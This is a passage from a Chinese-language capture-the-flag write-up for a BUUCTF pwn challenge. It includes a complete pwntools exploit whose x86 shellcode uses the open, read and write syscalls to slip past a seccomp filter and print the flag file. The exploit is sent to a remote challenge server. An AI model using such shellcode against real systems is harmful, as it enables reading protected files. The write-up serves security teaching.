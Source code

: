 ![](https://img-blog.csdnimg.cn/13b5d93da39d4bb889fea9cfd1fbdeaf.png)
可以看到输出把允许的系统调用用绿色标了出来，允许open、read、write。因此直接用open打开flag文件，读取若干字节到某个地址之后再写出来就可以了。这里选择将数据写在栈上，简单方便。

其中使用到了三个系统调用，32位x86的系统调用号以及使用的参数表在[这里](https://blog.csdn.net/Nashi_Ko/article/details/120288385?spm=1001.2014.3001.5506)查询

exp：
```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27084)

payload = 'push 0x0;'			# string ends
payload += 'push 0x67616c66;'	# string 'flag'
payload += 'mov ebx,esp;'		# second argument of syscall 'open'
payload += 'mov eax,5;'			# syscall code 5: open
payload += 'xor ecx,ecx;'
payload += 'xor edx,edx;'
payload += 'int 0x80;'			# open file './flag'

payload += 'mov eax,3;'			# syscall code 3: read
payload += 'mov ecx,ebx;'		# read file './flag' to stack (ebx==esp now)
payload += 'mov ebx,3;'			# fd, 0 => stdin, 1 => stdout, 2 => stderr, >=3 => others
payload += 'mov edx,0x100;'		# readsize, choose 0x100
payload += 'int 0x80;'			# read file './flag'

payload += 'mov eax,4;'			# syscall code 4: write
payload += 'mov ecx,esp;'
payload += 'mov ebx,1;'			# second argument of syscall 'write': fd for stdout
payload += 'mov edx,0x100;'		# write size, choose 0x100
payload += 'int 0x80;'			# syscall code 4: write

print(asm(payload))
io.sendlineafter(b'Give my your shellcode:', asm(payload))
io.interactive()
```
